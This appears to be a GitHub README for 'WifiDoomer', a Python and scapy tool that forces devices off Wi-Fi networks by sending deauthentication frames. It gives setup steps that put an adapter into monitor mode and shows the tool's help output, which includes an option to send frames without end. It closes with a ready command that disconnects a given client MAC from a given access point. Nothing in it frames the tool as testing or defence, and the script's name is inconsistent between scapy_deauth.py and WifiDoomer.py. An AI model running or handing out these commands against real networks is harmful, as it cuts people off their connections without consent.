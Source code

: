 # Forcing a device to disconnect using scapy in Python
# WifiDoomer-Simple Tool

to run this:
- Linux Machine.
- USB WLAN Stick.
- aircrack-ng.
- Turn the network interface to Monitor mode using the command:
    ```
    airmon-ng start wl01
    ```
- `pip3 install -r requirements.txt`.
- 
    ```
    python3 scapy_deauth.py --help
    ```
    **Output**:
    ```
    usage: scapy_deauth.py [-h] [-c COUNT] [--interval INTERVAL] [-i IFACE] [-v]
                         target gateway

    A python script for sending deauthentication frames

    positional arguments:
    target                Target MAC address to deauthenticate.
    gateway               Gateway MAC address that target is authenticated with

    optional arguments:
    -h, --help            show this help message and exit
    -c COUNT, --count COUNT
                            number of deauthentication frames to send, specify 0
                            to keep sending infinitely, default is 0
    --interval INTERVAL   The sending frequency between two frames sent, default
                            is 100ms
    -i IFACE              Interface to use, must be in monitor mode, default is
                            'wlan0mon'
    -v, --verbose         wether to print messages
    ```
    For instance, if you want to deauthenticate `"00:ae:fa:81:e2:5e"` on an access point `"e8:94:f6:c4:97:3f"`, you can easily by:
    ```
    python3 WifiDoomer.py 00:ae:fa:81:e2:5e e8:94:f6:c4:97:3f -i wl01mon -v
    ```
